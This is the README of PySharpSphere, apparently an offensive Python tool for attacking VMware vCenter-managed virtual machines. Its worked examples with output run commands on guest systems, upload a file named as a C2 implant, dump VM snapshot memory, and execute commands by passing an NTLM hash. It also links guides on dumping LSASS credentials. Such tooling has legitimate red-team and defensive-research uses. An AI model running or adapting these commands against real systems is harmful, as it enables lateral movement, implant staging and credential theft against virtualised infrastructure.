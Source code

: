 PySharpSphere
============

Inspired by [SharpSphere](https://github.com/JamesCooteUK/SharpSphere), just another python version.

### Installation
```bash
python3 setup.py install
```

### Features
- Support control both Linux and Windows system of virtual machines
- Execute commands, upload files and dump memory on target guest OS
- Use NTLM token to execute commands on guest Windows system


### SharpSphere Guide
- https://jamescoote.co.uk/introducing-sharpsphere/
- https://jamescoote.co.uk/Dumping-LSASS-with-SharpShere/


### PySharpSphere Usage
```bash
usage: pySharpSphere [-h] [-H HOST] [-P PORT] [-u USER] [-p PASSWORD]
                     {list,execute,upload,dump} ...

positional arguments:
  {list,execute,upload,dump}
                        sub-command
    list                list virtual machines
    execute             execute command on target machine
    upload              upload file to target machine
    dump                dump memory of target machine

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  vCenter Server host
  -P PORT, --port PORT  vCenter Server port
  -u USER, --username USER
                        vCenter Server username
  -p PASSWORD, --password PASSWORD
                        vCenter Server password
```

**0. List virtual machines**
```bash
$ pysharpsphere -H 192.168.100.49 -u administrator@vsphere.local -p password list
[*] Retrieve virtual machines list ...
DataCenter    MoID     Name                           Power    OS                                         Tools         IP
------------  -------  -----------------------------  -------  -----------------------------------------  ------------  --------------
Datacenter    vm-1015  Windows Server 2012 (VC67)     Off      Microsoft Windows Server 2012 (64-bit)     Current
Datacenter    vm-1030  VMware vCenter Server 7.0U2b   On       Other 3.x or later Linux (64-bit)          Unmanaged     192.168.100.49
Datacenter    vm-1017  VMware vCenter Server 6.7U3l   Off      Other 3.x or later Linux (64-bit)          Unmanaged
Datacenter    vm-1020  Operation Machine (Windows 7)  On       Microsoft Windows 7 (64-bit)               Current       192.168.100.2
```

**1. Execute commands on guest OS**
```bash
$ pysharpsphere -H 192.168.100.49 -u administrator@vsphere.local -p password execute -t vm-1020 --guest-user administrator --guest-pass guestpassword -c whoami
[*] Execute command on target virtual machine ...
[*] Retrieve virtual machines list ...
[*] Target OS is Windows, using C:\Windows\system32\cmd.exe to execute command ...
[+] Process start successfully with PID 1200
[*] Program exited, retrieving output ...
[*] Command output:
operation-machi\administrator
```

**2. Upload file to target virtual machine**
```bash
$ pysharpsphere -H 192.168.100.49 -u administrator@vsphere.local -p password upload -t vm-1020 --guest-user administrator --guest-pass guestpassword --source /tmp/test.exe --dest C:\\c2.exe
[*] Retrieve virtual machines list ...
[*] Uploading file to VM 'vim.VirtualMachine:vm-1020' ...
[*] Sending file data ...
[+] Uploaded file to C:\c2.exe successfully
```

**3. Dump memory of guest OS**
```bash
$ pysharpsphere -H 192.168.100.49 -u administrator@vsphere.local -p password dump -t vm-1020
[*] Retrieve virtual machines list ...
[*] Finding snapshot on target machine vm-1020
[+] Found exists snapshot!
[*] Finding snapshot files ...
[*] Downloading .vmsn file ...
[+] Downloaded successfully: Ubuntu-Snapshot1.vmsn
[*] Downloading .vmem file ...
[+] Downloaded successfully: Ubuntu-Snapshot1.vmem
```

**4. Execute commands on guest OS using NTLM**
```bash
$ pysharpsphere -H 192.168.100.49 -u administrator@vsphere.local -p password execute -t vm-1015 --guest-user administrator --guest-ntlm ea41383fa39c20f186cbcdc0ac234417 -c whoami
[*] Execute command on target virtual machine ...
[*] Retrieve virtual machines list ...
[*] Target OS is Windows, using C:\Windows\system32\cmd.exe to execute command ...
[*] Starting NTLM authentication ...
[+] Process start successfully with PID 2624
[*] Program exited, retrieving output ...
[*] Command output:
win-i1el8084mf0\administrator
```